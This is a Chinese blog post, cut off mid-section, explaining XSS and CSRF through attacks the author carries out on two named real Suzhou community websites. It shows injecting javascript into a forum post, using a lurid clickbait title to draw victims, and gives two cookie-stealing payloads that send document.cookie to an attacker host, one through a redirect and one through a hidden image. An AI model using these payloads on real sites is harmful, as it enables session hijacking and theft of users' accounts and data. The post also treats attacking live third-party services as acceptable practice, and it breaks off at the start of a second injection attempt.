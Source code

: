 想要CSRF获取用户的信息，就必须XSS注入成功，下面的例子我只是简单的注入alert(&#8216;xss&#8217;)，至于恶意用户完全可以把alert(&#8216;xss&#8217;)换成他想要的任意的js代码，用来发送post或者get请求修改用户的资料，获取用户好友信息，伪造发送私信，甚至做成蠕虫散播到整个web应用，所以千万不要小看了XSS注入攻击带来的后果，并不是alert一个对话框那么简单！

下面我们就卷起袖子开始我们的XSS之旅：

1、实例：XSS注入名城苏州论坛

我是苏州人，我就先拿本地的官方论坛www.2500sz.com开刀吧。

我打开2500sz.com的论坛然后注册了一个帐号，发布一个新话题，输入以下代码：

![关于XSS（跨站脚本攻击）和CSRF（跨站请求伪造） - snoopyxdy - snoopyxdy的博客](http://img6.ph.126.net/aehyYWxRpDwaPnTLgLMIeQ==/6597919689144308906.jpg)

上面的代码就是输入一个网络分享的图片，我在src中直接写入了javascript:alert(&#8216;xss&#8217;)；操作成功后生成帖子，用IE6、7的用户打开这个我发的这个帖子就会出现下图的alert(&#8216;xss&#8217;)弹窗。

![关于XSS（跨站脚本攻击）和CSRF（跨站请求伪造） - snoopyxdy - snoopyxdy的博客](http://img1.ph.126.net/DynmL_GpxcNr6gBxFS1rmA==/6597356739192266781.jpg)

当然我会将标题设计的非常吸引人点击，比如 “陈冠希艳照又有流出2012版(20P无码)” ，这样如果我将里面的alert换成恶意代码，比如：

<pre><span class="pln">location</span><span class="pun">.</span><span class="pln">href</span><span class="pun">=</span><span class="str">'http://www.xss.com?cookie='</span><span class="pun">+</span><span class="pln">document</span><span class="pun">.</span><span class="pln">cookie</span><span class="pun">；</span>
</pre>

用户的cookie我也拿到了，如果服务端session没有设置过期的话，我以后甚至拿这个cookie而不需用户名密码，就可以以这个用户的身份登录成功了。

这里的location.href只是处于简单这样做，如果做了跳转这个帖子很快会被管理员删除，但是如果我写如下代码，并且帖子的内容也是比较真实的，说不定这个帖子就会祸害很多人：

<pre><span class="kwd">var</span><span class="pln"> img </span><span class="pun">=</span><span class="pln"> document</span><span class="pun">.</span><span class="pln">createElement</span><span class="pun">(</span><span class="str">'img'</span><span class="pun">);</span>

<span class="pln">img</span><span class="pun">.</span><span class="pln">src</span><span class="pun">=</span><span class="str">'http://www.xss.com?cookie='</span><span class="pun">+</span><span class="pln">document</span><span class="pun">.</span><span class="pln">cookie</span><span class="pun">;</span>

<span class="pln">img</span><span class="pun">.</span><span class="pln">style</span><span class="pun">.</span><span class="pln">display</span><span class="pun">=</span><span class="str">'none'</span><span class="pun">;</span>

<span class="pln">document</span><span class="pun">.</span><span class="pln">getElementsByTagName</span><span class="pun">(</span><span class="str">'body'</span><span class="pun">)[</span><span class="lit">0</span><span class="pun">].</span><span class="pln">appendChild</span><span class="pun">(</span><span class="pln">img</span><span class="pun">);</span>

</pre>

这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意站点，我的恶意站点通过获取get参数就拿到了用户的cookie。当然我们可以通过这个方法拿到用户各种各样的数据。

2、还是苏州本地sns，苏州人社区

我们访问www.szr.com社区，这是一个面向于苏州人的sns社区，主要界面是抄袭的新浪微博。

注入尝试1：
